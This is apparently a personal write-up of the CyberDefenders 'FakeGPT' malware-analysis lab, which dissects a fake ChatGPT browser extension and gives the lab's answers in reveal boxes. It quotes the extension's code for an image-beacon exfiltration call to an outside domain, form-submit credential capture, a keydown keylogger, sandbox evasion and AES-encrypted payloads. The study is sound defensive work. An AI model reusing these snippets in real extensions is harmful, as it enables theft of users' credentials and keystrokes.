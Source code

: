 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - malwareanalysis
  - javascript
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes about FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about one particular encoding, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Base64
  </div>
</details>

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    www.facebook.com
  </div>
</details>

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
function sendToServer(encryptedData) {
  var img = new Image();
  img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
  document.body.appendChild(img);
}
```

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    &#60;img>
  </div>
</details>

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
  alert("Virtual environment detected. Extension will disable itself.");
  chrome.runtime.onMessage.addListener(() => { return false; });
}
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    navigator.plugins.length === 0
  </div>
</details>

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
document.addEventListener('submit', function(event) {
  let form = event.target;
  let formData = new FormData(form);
  let username = formData.get('username') || formData.get('email');
  let password = formData.get('password');
  ...
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    submit
  </div>
</details>

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
document.addEventListener('keydown', function(event) {
  var key = event.key;
  exfiltrateData('keystroke', key);
});
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    keydown
  </div>
</details>

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Mo.Elshaheedy.com
  </div>
</details>

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" maybe in JS is not needed but it is for the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    exfiltrateCredentials(username, password);
  </div>
</details>

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    AES
  </div>
</details>

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
"permissions": [
  "tabs",
  "http://*/*",
  "https://*/*",
  "storage",
  "webRequest",
  "webRequestBlocking",
  "cookies"
  ]
```

And one that seems related to the question is the value which is a session-related data and authentication information, so this is the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    cookies
  </div>
</details>

